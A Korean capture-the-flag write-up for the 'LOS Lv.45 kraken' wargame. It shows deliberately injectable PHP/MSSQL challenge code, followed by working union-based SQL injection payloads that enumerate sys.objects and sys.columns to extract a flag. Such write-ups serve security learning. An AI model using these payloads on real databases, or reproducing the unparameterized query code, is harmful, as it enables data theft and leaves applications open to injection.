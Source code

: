 ```yaml
---
title : "LOS Lv.45 kraken"
excerpt : "mssql sys.objects, sys.columns"
toc: true
toc_sticky: true
categories :
  - rubiya
---
```


## kraken
```php
query : select id from member where id='' and pw=''

<?php
  include "./config.php";
  login_chk();
  $db = mssql_connect("kraken");
  if(preg_match('/master|information|;/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/master|information|;/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = "select id from member where id='{$_GET['id']}' and pw='{$_GET['pw']}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlsrv_fetch_array(sqlsrv_query($db,$query));
  if($result['id']) echo "<h2>{$result['id']}</h2>";

  if($krakenFlag === $_GET['pw']) solve("kraken");// Flag is in `flag_{$hash}` table, not in `member` table. Let's look over whole of the database.
  highlight_file(__FILE__);
?>
```

## Solution
sys 필터링이 없어짐. sys.objects, sys.columns 사용 가능.  
sys.objects : <a href="https://docs.microsoft.com/ko-kr/sql/relational-databases/system-catalog-views/sys-objects-transact-sql?view=sql-server-ver15" target="_blank">here</a>  
sys.columns : <a href="https://docs.microsoft.com/ko-kr/sql/relational-databases/system-catalog-views/sys-columns-transact-sql?view=sql-server-ver15" target="_blank">here</a>  

```
처음에 그냥 table 목록을 뽑아오니 a_dummy_table이 나옴.

그래서 테스트 환경에서 5개의 테이블을 생성하고 
아래처럼 offset 안의 값을 증가시키면 한 개씩 반환됨을 확인.

이를 이용해서 flag로 시작하는 테이블을 찾으면 됨.
```
```
select name from sys.objects where type='U' order by name offset 0 rows fetch next 1 rows only
```
order by 할 때 name으로 하면 안됨. 이유는 결과로 나올 컬럼은 id 이기 때문임.
```
?id=' union select name from sys.objects where type='U' order by id offset 1 rows fetch next 1 rows only --%20
-> flag_ccdfe62b
```
```
이제 flag_ccdfe62b의 object_id를 알아낼꺼임.
?id=' union select object_id from sys.objects where name='flag_ccdfe62b' --%20
-> 901578250

object_id를 통해 table 구별을 해줄꺼임. -> 고유 값이라 가능
```
```
이제 column 이름을 뽑아올꺼임
?id=' union select name from sys.columns where object_id='901578250' --%20
-> flag_ab15b600
```
```
table 이름과 column 이름을 모두 알아냈으므로 flag를 뽑으면 됨.

?id=' union select flag_ab15b600 from flag_ccdfe62b --%20
-> FLAG{a0819fc56beae985bac7d175c974cd27}
```